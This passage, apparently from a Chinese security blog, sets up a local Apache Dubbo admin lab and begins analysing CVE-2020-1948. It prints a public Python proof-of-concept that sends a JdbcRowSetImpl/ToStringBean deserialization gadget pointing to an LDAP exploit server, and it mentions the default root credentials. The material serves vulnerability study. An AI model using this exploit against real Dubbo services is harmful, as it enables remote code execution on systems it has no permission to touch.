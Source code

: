 [![](https://p2.ssl.qhimg.com/t0112109fdaa7bffcfc.png)](https://p2.ssl.qhimg.com/t0112109fdaa7bffcfc.png)

dubbo-admin-server 目录下运行 mvn package -Dmaven.test.skip=true 将该模块打包成jar包

[![](https://p2.ssl.qhimg.com/t01afbfed916439e4a9.png)](https://p2.ssl.qhimg.com/t01afbfed916439e4a9.png)

然后 java -jar dubbo-admin-server-0.2.0-SNAPSHOT.jar 启动dubbo-admin-server，此时启动了 dubbo管理的服务端但是没有UI界面。

进入到 dubbo-admin-ui 中 执行 npm install 该命令执行完成后 执行npm run dev 。

[![](https://p5.ssl.qhimg.com/t011ba02107fc1bacbb.png)](https://p5.ssl.qhimg.com/t011ba02107fc1bacbb.png)

访问[http://localhost:8081](http://localhost:8081) 此时就有了UI界面，默认账号密码都是root，在服务查询中 我们可以看到Provider在Zookeeper注册中心中注册的远程方法服务，目前没有注册所以无可用数据

[![](https://p2.ssl.qhimg.com/t01344939c1b67254dc.png)](https://p2.ssl.qhimg.com/t01344939c1b67254dc.png)

启动我们使用dubbo框架写的程序<br>[![](https://p0.ssl.qhimg.com/t0170fb7a865a5bd0d9.png)](https://p0.ssl.qhimg.com/t0170fb7a865a5bd0d9.png)<br>
可以看到我们的远程方法服务成功在zookeeper注册中心进行注册

[![](https://p5.ssl.qhimg.com/t012f7e28d896e0c5ac.png)](https://p5.ssl.qhimg.com/t012f7e28d896e0c5ac.png)



## CVE-2020-1948 深度分析

首先观察一下网上已经公布的POC的代码

```
from hessian2 import new_object
from client import DubboClient

client = DubboClient('127.0.0.1', 20880)

JdbcRowSetImpl=new_object(
      'com.sun.rowset.JdbcRowSetImpl',
      dataSource="ldap://127.0.0.1:8087/ExploitMac",
      strMatchColumns=["fxx"]
      )
JdbcRowSetImplClass=new_object(
      'java.lang.Class',
      name="com.sun.rowset.JdbcRowSetImpl",
      )
toStringBean=new_object(
      'com.rometools.rome.feed.impl.ToStringBean',
      beanClass=JdbcRowSetImplClass,
      obj=JdbcRowSetImpl
      )

resp = client.send_request_and_return_response(
    service_name='com.example.provider.service.UesrService',
    method_name='test',
    args=[toStringBean])
```
